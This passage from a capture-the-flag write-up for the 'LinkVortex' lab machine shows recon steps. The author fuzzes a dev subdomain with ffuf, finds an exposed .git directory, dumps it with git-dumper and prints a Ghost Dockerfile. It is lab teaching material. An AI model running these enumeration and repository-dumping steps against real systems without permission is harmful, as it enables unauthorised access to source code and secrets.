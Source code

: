A subdomain `dev` is discovered. Let's also add it to `/etc/hosts` and inspect it further.

```
echo "10.129.231.194 dev.linkvortex.htb" >> /etc/hosts
```

![dev.site](../../img/LinkVortex/dev.site.png)

No clear vulnerabilities appear, and directory enumeration reveals nothing either. So we try fuzzing for hidden directories (those starting with `.`):

```
ffuf -c -u http://dev.linkvortex.htb/.FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 --ic

git                     [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 46ms]
```

There’s a `.git` directory exposed, which might allow access to the site's source code.

We use the git-dumper tool to download the `.git` contents:

```
git clone https://github.com/arthaud/git-dumper.git
cd git-dumper
```

```
python -m venv venv
venv/bin/pip install -r ./requirements.txt
venv/bin/python git_dumper.py http://dev.linkvortex.htb/.git ../repo
```

Inside the dumped repository, we find potentially useful files like `Dockerfile.ghost`.

```
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb

# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh

ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
```